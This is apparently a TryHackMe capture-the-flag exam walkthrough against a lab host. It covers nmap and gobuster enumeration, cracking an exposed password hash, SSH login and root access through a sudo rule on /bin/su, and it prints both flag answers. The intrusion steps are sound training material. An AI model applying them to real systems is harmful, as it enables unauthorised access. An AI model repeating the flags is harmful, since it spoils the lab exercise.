 # TryHackMe [CC: Pen Testing](https://tryhackme.com/room/ccpentesting) Final Exam
### References
* Lyon, G. (2021). `nmap` Reference Guide. nmap.org. https://nmap.org/book/man.html
* Miller, T. C. (2021). `sudo` Manual. sudo.ws. https://www.sudo.ws/man/1.9.6/sudo.man.html
* Reeves, OJ. (2021). `OJ/gobuster/README.md`. GitHub. https://github.com/OJ/gobuster/blob/master/README.md
## reconnaissance
### `nmap`
* Network scan results:
  * The server runs some version of Ubuntu
  * SSH is listening on TCP port 22.
  * Apache web server is listening on port 80.
```bash
$ nmap -sV -sC <MACHINE_IP>
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-19 22:37 AEST
Nmap scan report for <MACHINE_IP>
Host is up (0.28s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:96:a6:1e:81:73:ae:17:4c:e1:7c:63:78:3c:71:1c (RSA)
|   256 6d:9c:f2:07:11:d2:aa:19:99:90:bb:ec:6b:a1:53:77 (ECDSA)
|_  256 0e:a5:fa:ce:f2:ad:e6:fa:99:f3:92:5f:87:bb:ba:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.63 seconds
```
### `gobuster`
1. Initial folder enumeration:
```bash
$ gobuster dir -u http://<MACHINE_IP> -w $(pwd)/directory-list-2.3-medium.txt
/secret               (Status: 301) [Size: 313] [--> http://<MACHINE_IP>/secret/]
```
1. Enumeration for common web server file extensions:
```bash
$ gobuster dir -u http://<MACHINE_IP>/secret -w $(pwd)/directory-list-2.3-medium.txt -x .html,.php,.txt
/index.html           (Status: 200) [Size: 0]
/secret.txt           (Status: 200) [Size: 46]
```

   * `http://<MACHINE_IP>/secret/secret.txt`:
```
nyan:046385855FC9580393853D8E81F240B66FE9A7B8
```
2. By using [CrackStation](https://crackstation.net/) on the `secret.txt` hash, it is mapped to `nyan`.
   * It is safe to assume the `username:hash` format is similar to the format used in Linux's `/etc/passwd` file, and thus ir related to the user authentication on that server.
## What is the `user.txt`
1. An SSH session was established by using the credentials (username and password of `nyan`) found in the `secret.txt` file.
2. By using the interactive shell provided by the SSH session, the content of `user.txt` was extracted.
```bash
$ ssh nyan@<MACHINE_IP>
nyan@ubuntu:~$ cat user.txt 
supernootnoot
```

**Answer**: `supernootnoot`
## What is the `root.txt`
1. The `-l` flag of `sudo` was used to list binaries `sudo` is authorized to use on this server.
2. The `/bin/su` binary was used to get `root` access.
3. The content of `/root/root.txt` was read through the established root shell.
```bash
nyan@ubuntu:~$ sudo -l
Matching Defaults entries for nyan on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su
nyan@ubuntu:~$ sudo /bin/su
[sudo] password for nyan: 
Sorry, user nyan is not allowed to execute '/bin/sh' as root on ubuntu.
nyan@ubuntu:~$ sudo /bin/su
root@ubuntu:/home/nyan# cat /root/root.txt
congratulations!!!!
```

**Answer**: `congratulations!!!!`